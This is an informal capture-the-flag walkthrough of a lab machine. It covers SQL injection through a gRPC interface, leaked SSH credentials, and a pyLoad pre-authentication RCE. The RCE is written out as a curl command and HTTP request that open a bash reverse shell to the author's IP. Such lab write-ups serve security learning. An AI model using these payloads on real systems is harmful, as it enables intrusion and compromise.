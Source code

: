 i started by enumerating the machine as always with an NMAP scan:
	nmap -Pn -p- 10.10.11.214
i got those resaults:
	
	22 ssh
	50051 ?

the second port seemed kinda sus so i googled it and i found that is an gRPC (google REMOTE PROCEDURE CALL):
	
	https://github.com/fullstorydev/grpcui
#i ended up modifing the go script in cmd/grpcui/grpcui.go by modifing a line where they used a variable
#that wasnt defined

in this repo ther's an usefull ui that we can use to connect to the 50051 port:
	
	go run cmd/grpcui/grpcui.go  -plaintext 10.10.11.214:50051

now we are in the web interface where we can create an account:
	
	username: admin1
	password: admin1

with those credential we can login and get our id and token

after that we can get accont info by inserting a valid token and an id (we both got when we logged in);
we can now intercept the request with a proxy (i used burpsuite) and save it to a file:
	#id.req#

	POST /invoke/SimpleApp.getInfo HTTP/1.1
	Host: 127.0.0.1:37477
	Content-Length: 195
	sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
	sec-ch-ua-mobile: ?0
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
	Content-Type: application/json
	X-Requested-With: XMLHttpRequest
	x-grpcui-csrf-token: kttaFU2pdLrNfxabZIIKkLmllzb923RAai-m03kVGUk
	sec-ch-ua-platform: "Linux"
	Origin: http://127.0.0.1:37477
	Sec-Fetch-Site: same-origin
	Sec-Fetch-Mode: cors
	Sec-Fetch-Dest: empty
	Referer: http://127.0.0.1:37477/
	Accept-Encoding: gzip, deflate
	Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
	Cookie: _grpcui_csrf_token=kttaFU2pdLrNfxabZIIKkLmllzb923RAai-m03kVGUk
	Connection: close
	{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYWRtaW4xIiwiZXhwIjoxNjg1NzMwNTgxfQ.5HDGksjwEK79FJuD6jm4KXf7ai9fXV8XQny17-mhzO0"}],"data":[{"id":"521*"}]}

i added a * after my id number so i can pass the request in sqlmap as so:
	
	sqlmap -r id.req --batch -dump

after that we got some credentials that we can try to use on ssh:
	
	 admin                   admin    
	 HereIsYourPassWord1431  sau      
	 admin1                  admin1  
the only one working is sau creds; so i log in to ssh with pwncat:

	python3 -m pwncat
	connect ssh://sau:HereIsYourPassWord1431@10.10.11.214:22
and i got user flag!!

no time to party, we need to get root..

so i imported linpeas.sh with pwncat:
	
	Ctrl + d
	upload linpeas.sh /tmp/linpeas.sh
	Ctrl + d
	cd /tmp
	chmod +x linpeas.sh
	./linpeas.sh
linpeas show us a bunch of localy open ports that we cant see from the outside of the machine,
for example we take a look at port 8000 with curl on the remote host:
	
	curl 127.0.0.1:8000
is a login web page of the service pyLoad;
we need to interact with it but we can't access it, how could we do..

wventually i portforwarded the 8000 on my loopback via ssh with that command:
	
	ssh -L 9000:127.0.0.1:8000 sau@10.10.11.214

by doing so the port 8000 of the sau machine is linked to the port 9000 on my localhost ip
now i can access it by typing on the browser the ip and port:
	
	127.0.0.1:9000
is the pyLoad login page;
the first thing i did is to search for pyLoad expolits and i found this site:
	
	https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/
in this article they get RCE before authenticate, IT'S PERFECT;
i started a listener to catch a possible revshell:
	
	python3 -m pwncat
	connect -lp 9999
i edited the payload that was on the article with a bash reverse shell to my VPN ip
	
	 curl -i -s -k -X $'POST' -H $'Host: 127.0.0.1:9000' -H $'Content-Type: application/x-www-form-urlencoded' --data-binary $'package=xxx&crypted=AAAA&jk=pyimport+os%3bos.system("/bin/bash+-c+%27bash+-i+>%26+/dev/tcp/10.10.14.47/9999+0>%261%27");f=function%20f2(){};&passwords=aaaa' $'http://127.0.0.1:9000/flash/addcrypted2'
this is how the request looks in burpsuite:

	POST /flash/addcrypted2 HTTP/1.1
	Host: 127.0.0.1:9000 
	Upgrade-Insecure-Requests: 1
	Origin: http://127.0.0.1:9000
	Content-Type: application/x-www-form-urlencoded
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
	Sec-Fetch-User: ?1
	Cookie: _grpcui_csrf_token=kttaFU2pdLrNfxabZIIKkLmllzb923RAai-m03kVGUk
	Connection: close
	Content-Length: 126

	package=xxx&crypted=AAAA&jk=pyimport+os%3bos.system("/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.47/9999+0>%261'");f=function%20f2(){};

WE ARE NOW ROOT!!
